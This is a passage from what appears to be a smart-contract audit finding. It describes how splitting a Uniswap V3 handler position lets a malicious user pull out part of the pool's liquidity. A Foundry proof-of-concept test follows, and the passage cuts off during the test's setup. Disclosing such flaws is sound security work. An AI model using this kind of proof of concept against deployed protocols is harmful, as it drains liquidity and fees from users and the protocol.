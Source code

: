 This will result in less liquidity added back; the tokens will be sent back to the liquidity provider. This can be annoying as it allows a malicious user to remove a part of the liquidity available, which will reduce the volume and the potential fees for users and the protocol.

Poc: Copy and paste in `UniswapV3Handler.t.sol` and run `forge test --mt testSplitPositionLess -vvv`

```solidity
function testSplitPositionLessLiquidity() public {
        TestVars memory vars;

        // Get current price and tick
        (vars.sqrtPriceX96, vars.currentTick,,,,,) = pool.slot0();
        int24 tickSpacing = pool.tickSpacing();

        // Calculate tick range that spans the current tick
        int24 initialTickLower = ((vars.currentTick / tickSpacing) * tickSpacing) - 100 * tickSpacing;
        int24 initialTickUpper = ((vars.currentTick / tickSpacing) * tickSpacing) + 100 * tickSpacing;

        // Define split ticks
        int24[] memory splitTicks = new int24[](4);
        splitTicks[0] = initialTickLower;
        splitTicks[1] = initialTickLower + (initialTickUpper - initialTickLower) / 4;
        splitTicks[2] = initialTickLower + (initialTickUpper - initialTickLower) / 2;
        splitTicks[3] = initialTickUpper;

        // Set initial amounts
        uint256 amount0Desired = 10000 * 10 ** 6; // 10,000 USDC
        uint256 amount1Desired = 5 * 10 ** 18; // 5 ETH

        handler.registerHook(
            address(1),
            IHandler.HookPermInfo({
                onMint: false,
                onBurn: false,
                onUse: false,
                onUnuse: false,
                onDonate: false,
                allowSplit: true
            })
        );

        // Mint initial position
        vm.startPrank(owner);
        USDC.mint(owner, amount0Desired);
        ETH.mint(owner, amount1Desired);
        USDC.approve(address(positionManager), amount0Desired);
        ETH.approve(address(positionManager), amount1Desired);

        vars.liquidity = LiquidityAmounts.getLiquidityForAmounts(
            vars.sqrtPriceX96,
            TickMath.getSqrtRatioAtTick(initialTickLower),
            TickMath.getSqrtRatioAtTick(initialTickUpper),
            amount0Desired,
            amount1Desired
        );

        V3BaseHandler.MintPositionParams memory mintParams = V3BaseHandler.MintPositionParams({
            pool: IV3Pool(address(pool)),
            hook: address(1),
            tickLower: initialTickLower,
            tickUpper: initialTickUpper,
            liquidity: vars.liquidity
```